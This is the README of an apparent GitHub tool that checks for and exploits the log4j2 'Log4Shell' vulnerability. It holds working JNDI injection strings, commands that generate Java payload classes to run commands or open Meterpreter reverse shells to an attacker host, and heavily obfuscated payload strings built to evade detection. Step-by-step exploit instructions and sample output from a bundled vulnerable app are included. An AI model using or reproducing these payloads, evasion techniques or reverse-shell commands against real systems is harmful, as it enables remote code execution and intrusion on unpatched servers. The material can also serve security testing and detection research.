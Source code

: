 # Log4Shell
 [![GitHub Actions](https://github.com/For-ACGN/Log4Shell/workflows/Go/badge.svg)](https://github.com/For-ACGN/Log4Shell/actions)
 [![Go Report Card](https://goreportcard.com/badge/github.com/For-ACGN/Log4Shell)](https://goreportcard.com/report/github.com/For-ACGN/Log4Shell)
 [![GoDoc](https://godoc.org/github.com/For-ACGN/Log4Shell?status.svg)](http://godoc.org/github.com/For-ACGN/Log4Shell)
 [![License](https://img.shields.io/github/license/For-ACGN/Log4Shell.svg)](https://github.com/For-ACGN/Log4Shell/blob/master/LICENSE)\
 Check, exploit, generate class, obfuscate, TLS, ACME about log4j2 vulnerability in one Go program. 

## Feature
 * Only one program and easy deployment
 * Support common operating systems
 * Support multi Java class files
 * Support LDAPS and HTTPS server
 * Support ACME to sign certificate
 * Generate class without Java compiler
 * Support obfuscate malicious(payload)
 * Hide malicious(payload) string
 * Add secret to protect HTTP server
 * Add token to fix repeat execute payload

## Usage
 ### Start Log4Shell server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start Log4Shell server with TLS
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start Log4Shell server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Generate Java class file
   ```
   Execute(no output):
     Log4Shell.exe -gen "execute" -args "-cmd calc" -class "Test"

   System(with output):
     Log4Shell.exe -gen "system" -args "-bin cmd -args \"/c net user\"" -class "Test"

   ReverseTCP(java/meterpreter/reverse_tcp):      // template will be open source after some time
     Log4Shell.exe -gen "reverse_tcp" -args "-lhost 1.1.1.1 -lport 9979" -class "Test"

   ReverseHTTPS(java/meterpreter/reverse_https):  // template will be open source after some time
     Log4Shell.exe -gen "reverse_https" -args "-lhost 1.1.1.1 -lport 8443 -luri test" -class "Test"  

   The generated class file will be saved to the payload directory(can set output flag)
   ```

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"
   ```
   ```
   raw: ${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}

   ${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-
   da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo
   @-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.m
   Q:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s
   :-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}

   Each string can only be used once, or wait 20 seconds.
   ```
   ```
   When obfuscate malicious(payload) string, log4j2 package will repeat execute it, the number of
   repetitions is equal the number of occurrences about string "${". The LDAP server add a simple
   token mechanism for prevent it. 
   ```
   
  ### Hide malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://127.0.0.1:3890/Calc}" -hide
   ```
   ```
   raw: ${jndi:ldap://127.0.0.1:3890/Calc$YG=.z[.od7rH0XpE}
   ```
   ```
   Execute VulApp:
   
   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>D:\Java\jdk1.8.0_121\bin\java -jar 
   vulapp.jar ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:
   -l}d${SaS-TmMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6B
   m:-}${W1eelS:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:
   5h=5SqK-p(X9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=
   ${*E-5M:-.z[}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC
   :.XYPyzv6-sPH.]*Ls:$@Q:-XpE}}
   ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:-l}d${SaS-T
   mMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6Bm:-}${W1eel
   S:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:5h=5SqK-p(X
   9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=${*E-5M:-.z
   [}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC:.XYPyzv6-s
   PH.]*Ls:$@Q:-XpE}}
   15:49:14.676 [main] ERROR log4j - XpE}

   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>
   ```
   ```
   The Logger will only record a part of raw string "15:49:14.676 [main] ERROR log4j - XpE}",
   and repeat execute will not appear(I don't know why this happened).
   ```

## Check
 * start Log4Shell server
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -args string
        arguments about generate Java class file
  -auto-cert
        use ACME client to sign certificate automatically
  -class string
        specify the new class name
  -gen string
        generate Java class file with template name
  -hide
        hide obfuscated malicious(payload) string in log4j2
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -no-token
        not add random token when use obfuscate
  -obf string
        obfuscate malicious(payload) string
  -output string
        generated Java class file output path
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
